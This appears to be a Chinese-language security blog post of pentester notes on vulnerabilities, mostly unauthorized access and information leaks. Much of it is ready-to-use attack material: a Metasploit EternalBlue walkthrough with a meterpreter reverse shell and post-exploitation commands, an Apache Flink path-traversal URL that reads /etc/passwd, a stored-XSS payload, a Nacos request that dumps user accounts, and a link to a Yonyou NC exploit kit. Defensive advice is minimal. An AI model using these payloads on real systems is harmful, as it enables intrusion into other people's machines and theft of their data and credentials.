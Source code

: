 ```yaml
---
layout: post
title:  安全信息泄露之未授权访问
categories: 安全知识
description:  zookeeper 未授权
keywords: 未授权
---
```


# 未授权类

# 信息泄露

## JetBrains .idea 项目路径未删除

例如：`https://IP地址/.idea/workspace.xml`

漏洞危害： 

它允许恶意黑客收集相关信息，这些信息可以在攻击生命周期的后期使用，以便在无法访问这些信息的情况下获得更多。

修复建议：

删除该路径。

# CVE-2019-0708 BlueKeep远程桌面代码执行漏洞


漏洞详情：

当未经验证的攻击者使用RDP连接到目标系统并发送精心编制的请求时，远程桌面服务（以前称为终端服务）中存在远程代码执行漏洞。此漏洞是预验证漏洞，不需要用户交互。成功利用此漏洞的攻击者可以在目标系统上执行任意代码。然后，攻击者可以安装程序；查看、更改或删除数据；或者创建具有完全用户权限的新帐户。
要利用此漏洞，攻击者需要通过RDP向目标系统远程桌面服务发送精心编制的请求。

漏洞危害：

成功利用此漏洞的攻击者可以在目标系统上执行任意代码。

# CVE-2021-21985 VMware vCenter Server 远程代码执行

# Apache 任意文件读取 (CVE-2020-17519)

例如：
```
http://<IP地址>:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

# 用友nc任意文件上传漏洞

1. [用友NC-OA漏洞合集](https://github.com/asdasdqkq1/yonyou-nc-exp)
2. Liquan 连接木马


# ms17-010（Eternal blue永恒之蓝）

使用 msf 工具攻击

```
msfconsole 
# options 和 payload 设置如下
msf > use exploit/windows/smb/ms17_010_eternalblue (加载攻击模块)
msf > set RHOST 192.168.92.129（被攻击机IP）
msf >set LHOST 192.168.92.132（设置本地IP）
msf >set LPORT 4444(设置连接端口)
msf >set payload windows/x64/meterpreter/reverse_tcp（配置回链方式）

msf >show options(查看配置相关信息)
msf >run（或者exploit,开始攻击）

四、    攻击成功！查看系统信息
meterpreter>sysinfo 爆出系统信息
meterpreter>screenshot 截屏，截屏后的图片存放在/root/中
meterpreter>net user 查看用户密码

```

# MySQL JDBC反序列化漏洞

[MySQL JDBC反序列化漏洞案例
](https://www.mi1k7ea.com/2021/04/23/MySQL-JDBC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

发现方法：
发现后台中有数据库连接功能，经过测试使用的jdk版本较低，可进行jdbc反序列化漏洞。
在服务器上搭建恶意的mysql服务器，之后使用数据库连接功能连接恶意的mysql服务器，成功读取到/etc/host文件：

# 存储型XSS漏洞

- 超链接插入、图片插入
  ```
  "><img src=1 onerror=alter(1)>
  ```

# 版本泄露漏洞

- nginx 报错无屏蔽版本

# Windows Print Spooler服务最新漏洞CVE-2021-34527详细分析

https://blog.csdn.net/weixin_45728976/article/details/118612863

# windows CVE-2019-0708 漏洞利用复现

https://www.freebuf.com/articles/system/269901.html

0x00漏洞概述:

Windows系列服务器于2019年5月15号，被爆出高危漏洞，该服务器漏洞利用方式是通过远程桌面端口3389，RDP协议进行攻击的，堪比WannaCry(蠕虫病毒)。

0x01影响版本:

Windows 7

Windows Server 2008 R2

Windows Server 2008

Windows Server 2003

Windows XP

# Struts 远程代码执行漏洞(CVE-2016-1000031)

Struts2 是Apache软件基金会负责维护的一个基于MVC设计模式的Web应用框架开源项目。 
Apache Struts 2.3.36及之前的版本使用了Commons FileUpload 1.3.2及以下版本，该库作为Struts2的一部分，被用作文件上传的默认机制，该上传机制存在一个高危漏洞，远程攻击者可以利用该漏洞获得远程代码执行能力。

https://www.zerodayinitiative.com/advisories/ZDI-16-570/

https://www.cnblogs.com/peace-and-romance/p/15652512.html

# Hadoop Yarn REST API 未授权漏洞

https://developer.aliyun.com/article/824738

# Nacos 未授权漏洞复现

[Nacos 未授权漏洞复现
](https://www.programminghunter.com/article/25592048521/)
```dotnetcli
get方式获得其他用户信息：

GET /nacos/v1/auth/users?pageNo=1&pageSize=999 HTTP/1.1
Host: XXX
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip
```